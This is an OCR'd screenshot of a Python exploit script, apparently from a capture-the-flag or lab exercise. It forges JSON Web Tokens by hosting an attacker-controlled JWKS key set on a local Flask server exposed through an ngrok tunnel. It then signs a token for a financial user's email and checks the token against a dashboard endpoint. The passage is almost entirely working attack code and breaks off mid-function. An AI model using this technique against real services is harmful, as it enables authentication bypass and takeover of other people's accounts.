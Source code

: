 ```python
pub_key = key_pair.publickey()
priv_key = key_pair.export_key('PEM')

kid = fetch_kid_from_jwks()
print('[+] Fetching kid ...')

jwks_data = {
    'keys': [{
        'alg': 'RS256',
        'kty': 'RSA',
        'use': 'sig',
        'n': base64url_encode(int.to_bytes(pub_key.n, (pub_key.n.bit_length() + 7) // 8, 'big')).decode(),
        'e': base64url_encode(int.to_bytes(pub_key.e, (pub_key.e.bit_length() + 7) // 8, 'big')).decode(),
        'kid': kid,
    }]
}

def start_flask_app():
    app.run(host='127.0.0.1', port=JWKS_PORT, debug=True, use_reloader=False)

from threading import Thread
flask_thread = Thread(target=start_flask_app)
flask_thread.daemon = True
flask_thread.start()

print(f'[+] Flask JWKS Server is running on http://localhost:{JWKS_PORT}')

print('[+] Creating ngrok tunnel...')
ngrok.set_auth_token('YOUR_NGROK_AUTH_TOKEN')
public_url = ngrok.connect(JWKS_PORT, 'tcp').public_url.replace('tcp://', 'http://')

print(f'[+] JWKS Public URL: {public_url}')

# Create a forged JWT
payload = {
    'email': FINANCIAL_EMAIL,
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(days=0, hours=6, seconds=0)
}

forged_token = create_forged_jwt(public_url, kid, priv_key, payload)
print(f'[~] Forged JWT: {forged_token}')

print('[+] Validating forged JWT against /api/dashboard...')
validate_token(forged_token)

ngrok.disconnect(public_url)
print('[+] Cleanup completed.')

def register_user(email, password):
    user = {'email': email, 'password': password}
    r = requests.post(f'{HOST}/api/auth/register', json=user)
    if r.status_code == 200:
        print(f'User registered successfully: {email}')
    else:
        print(f'Failed to register user: {email}, Response: {r.text}')

def login_user(email, password):
    user = {'email': email, 'password': password}
    r = requests.post(f'{HOST}/api/auth/login', json=user)
    if r.status_code == 200:
```